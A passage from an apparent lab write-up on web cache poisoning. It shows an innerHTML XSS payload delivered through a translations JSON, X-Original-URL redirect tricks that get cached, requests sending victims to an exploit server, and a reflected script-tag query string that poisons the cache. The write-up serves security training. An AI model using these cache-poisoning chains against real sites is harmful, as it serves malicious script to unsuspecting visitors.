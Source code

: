                 lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
            });
    }
This function has a dangerous sink `el.innerHTML = dict[k]`, which we can inject our code inside the DOM when the language is other than English. To do so, use this JSON at the exploit server:

    {
        "en-gb": {
            "translations": {
            "High-End Gift Wrapping": "<img src=1 onerror=alert(1)>"
            }
        }
    }

Revisit the page, we notice that the attack was successful. But since the victim is using English, we need somehow to force them into using `en-gb`. Notice another header found by `Param Miner`, which is `X-Original-URL`. This header lets us specify another URL other than the one specified in the `<request-target>` and redirect the user to. For example, consider this request:

    GET / HTTP/2
    X-Original-URL: /login

When the user visits the home page (`/`), instead of getting to the homepage, he is redirected to the login page.
So in this lab, to change the user's language to `en-gb`, we can use this header:

    X-Original-URL: /setlang/en-gb?

But notice, this won't be cached by the cache server, so when the victim visits the home page, there language is not changed. To make it happen modify it to:

    X-Original-URL: /setlang/en-gb//

This request will now be cached, and the browser will redirect the user to `/?localized=1`. We have to also cache this response. To do so resend these 2 request to make the cache server store it:

    GET / HTTP/2
    X-Original-Url: /setlang/en-gb//

    GET /?localized=1 HTTP/2
    Cookie: session=kR2hypLwTseLX3PS2tgOzh4eRvJky3uP; lang=en-gb
    X-Forwarded-Host: exploit-0afc00a7040dbbe283d82cac014d003e.exploit-server.net/exploit#

### LAB: Web cache poisoning via an unkeyed query string
Notice the response is cached based on the `Origin` header and the path in the request target. Try send this request:
    
    GET /?'/><script>alert(1)</script> HTTP/2
    Origin: example.com

Notice a `X-Cache: miss` header and the query parameter is successfully reflected inside the response. Resend this so that the cache server stores the response. Now remove the query parameter and the `Origin` header, resend the request until a `X-Cache: miss` header. Notice the malicious response is now showing, resend one more time to make the server cache this response. Now when the victim make a `GET / HTTP/2` request, he is served with this malicious response.
